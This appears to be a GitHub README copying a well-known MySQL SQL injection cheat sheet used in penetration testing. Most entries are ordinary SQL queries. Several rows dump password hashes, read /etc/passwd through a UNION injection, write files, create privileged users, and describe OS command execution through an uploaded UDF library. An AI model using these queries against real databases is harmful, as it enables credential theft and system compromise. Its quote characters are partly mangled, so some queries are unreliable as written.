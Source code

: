 # My-SQL-Injection-things
#mysql #sql #injection
original: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


| Version                      | SELECT @@version                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Comments                     | SELECT 1; #comment SELECT /*comment*/1;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Current User                 | SELECT user(); SELECT system_user();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| List Users                   | SELECT user FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| List Password Hashes         | SELECT host, user, password FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Password Cracker             | John the Ripper will crack MySQL password hashes.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Privileges              | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns |
| List DBA Accounts            | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Current Database             | SELECT database()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Databases               | SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0 SELECT distinct(db) FROM mysql.db — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Columns                 | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| List Tables                  | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Find Tables From Column Name | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Select Nth Row               | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0 SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Select Nth Char              | SELECT substr(‘abcd’, 3, 1); # returns c                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| Bitwise AND                  | SELECT 6 & 2; # returns 2 SELECT 6 & 1; # returns 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ASCII Value -> Char          | SELECT char(65); # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| Char -> ASCII Value          | SELECT ascii(‘A’); # returns 65                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Casting                      | SELECT cast(’1′ AS unsigned integer); SELECT cast(’123′ AS char);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| String Concatenation         | SELECT CONCAT(‘A’,'B’); #returns AB SELECT CONCAT(‘A’,'B’,'C’); # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| If Statement                 | SELECT if(1=1,’foo’,'bar’); — returns ‘foo’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| Case Statement               | SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| Avoiding Quotes              | SELECT 0×414243; # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| Time Delay                   | SELECT BENCHMARK(1000000,MD5(‘A’)); SELECT SLEEP(5); # >= 5.0.12                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| Make DNS Requests            | Impossible?                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| Command Execution            | If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar). The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this. Remember to compile for the target architecture which may or may not be the same as your attack platform.                                                                                                                                                                                                                                                                                                                                             |
| Local File Access            | …’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files. SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| Hostname, IP Address         | SELECT @@hostname;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Create Users                 | CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Delete Users                 | DROP USER test1; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Make User DBA                | GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| Location of DB files         | SELECT @@datadir;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| Default/System Databases     | information_schema (>= mysql 5.0) mysql                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
